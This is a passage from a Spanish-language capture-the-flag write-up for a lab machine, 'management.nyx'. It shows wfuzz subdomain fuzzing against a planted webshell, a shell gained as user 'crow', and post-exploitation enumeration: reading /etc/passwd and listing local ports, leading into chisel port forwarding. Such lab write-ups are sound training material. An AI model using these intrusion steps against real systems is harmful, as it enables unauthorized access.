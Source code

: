 Vemos que tenemos un subdominio `dev.management.nyx`, lo añadimos al `/etc/hosts`, y además confirmamos que en este subdominio si que se interpreta el código PHP.
```console
wfuzz --hh=5492 -c -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H 'Host: FUZZ.management.nyx' http://management.nyx/manager_backup/pointedshell.php
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://management.nyx/manager_backup/pointedshell.php
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000019:   200        2 L      14 W       92 Ch       "dev"
^C /usr/lib/python3/dist-packages/wfuzz/wfuzz.py:80: UserWarning:Finishing pending requests...
```

Ahora si, si cargamos el recurso desde el navegador...
![Write-up Image](images/Screenshot_5.png)

Podemos ver que ganamos acceso como el usuario `crow`
```console
(remote) crow@manager:/$ id
uid=1000(crow) gid=1000(crow) groups=1000(crow)
```

# Privilege Escalation

Vemos que no existe otro usuario con una bash a parte de `crow` y `root`
```console
(remote) crow@manager:/home$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
crow:x:1000:1000:crow:/home/crow:/bin/bash
```

## Reverse Port Forwarding w/chisel
Enumerando la máquina podemos ver que existe un puerto `10000/TCP` abierto que no hemos podido ver antes. Anteriormente veíamos este puerto abierto pero por UDP.
```console
(remote) crow@manager:/home$ ss -tulnp
Netid               State                Recv-Q               Send-Q                               Local Address:Port                                Peer Address:Port               Process
udp                 UNCONN               0                    0                                          0.0.0.0:68                                       0.0.0.0:*
udp                 UNCONN               0                    0                                          0.0.0.0:161                                      0.0.0.0:*
udp                 UNCONN               0                    0                                          0.0.0.0:10000                                    0.0.0.0:*
tcp                 LISTEN               0                    10                                       127.0.0.1:57895                                    0.0.0.0:*                   users:(("smbserver.py",pid=421,fd=5))
tcp                 LISTEN               0                    4096                                     127.0.0.1:10000                                    0.0.0.0:*
```
